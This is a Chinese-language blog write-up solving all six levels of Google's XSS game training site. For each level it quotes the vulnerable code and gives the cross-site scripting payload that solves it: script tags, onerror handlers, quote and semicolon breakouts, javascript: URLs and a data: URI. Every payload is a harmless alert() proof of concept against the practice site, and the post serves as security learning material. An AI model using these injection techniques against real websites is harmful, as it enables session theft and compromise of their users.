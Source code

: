 ```yaml
---
title: Google XSS game solutions
tags:
permalink: google-xss-game-solutions
id: 5acda53481f41f000158dc03
updated: '2017-01-21 23:21:08'
date: 2017-01-21 22:55:28
---
```


這是 Google 推出的 XSS game，很久之前有看到沒有解，今天又看到解了一下，分享一下心得。

網址：https://xss-game.appspot.com

#Level 1
首先可以看到它把 `X-XSS-Protection` 關掉了，接著看到 `level.py` 的第 45 行：

```
message = "Sorry, no results were found for <b>" + query + "</b>."
```

很明顯前面根本沒做 escape，直接丟一個傳統的 payload 就 ok 了：

```
<script>alert()</script>
```

#Level 2
`index.html` 第 30 行：

```
html += "<blockquote>" + posts[i].message + "</blockquote";
```

一樣丟 `<script>alert()</script>` 發現沒用，丟 `<img src="123" onerror=alert()>` 就 ok 了。

#Level 3
這關有點討厭，不過只要插一個 single quote (`'`) 之後大概就知道怎麼解啦 XD

![](/content/images/2017/01/Screen-Shot-2017-01-21-at-11.04.40-PM.png)

Full payload:

```
https://xss-game.appspot.com/level3/frame#3' onerror="alert()"
```

#Level 4
`timer.html` 第 21 行看起來就超可疑的

```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

丟 `12345')` 進去之後長這樣

![](/content/images/2017/01/Screen-Shot-2017-01-21-at-11.08.25-PM.png)

不過如果要在後面觸發 `alert()` 的話，前一個 function call 就必須要關閉（`startTimer`），也就是說要有分號 `;`。重點是插進去什麼都沒有，看了一下 hint，插入 %3B 之後就搞定啦

Full payload:

```
https://xss-game.appspot.com/level4/frame?timer=12345')%3Balert('
```

#Level 5
看到 `signup.html` 第 15 行就覺得可疑，看一下後端的 python code 發現 Next 的網址是看 url 參數的。因此直接丟這個就搞定啦

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```

這邊的 trick 是 `javascript:alert(1)` 會被 browser 認定為執行這個 js code 哦

#Level 6
一開始以為是大魔王關卡，結果簡單到爆
看一下題目寫說他會動態 load 這個 js 檔案，那我們就給他一個 [data uri](https://tools.ietf.org/html/rfc2397) 就好了啊你以為我們真的要去自己 host 一個 js file 嗎

Full payload
```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert(1)
```
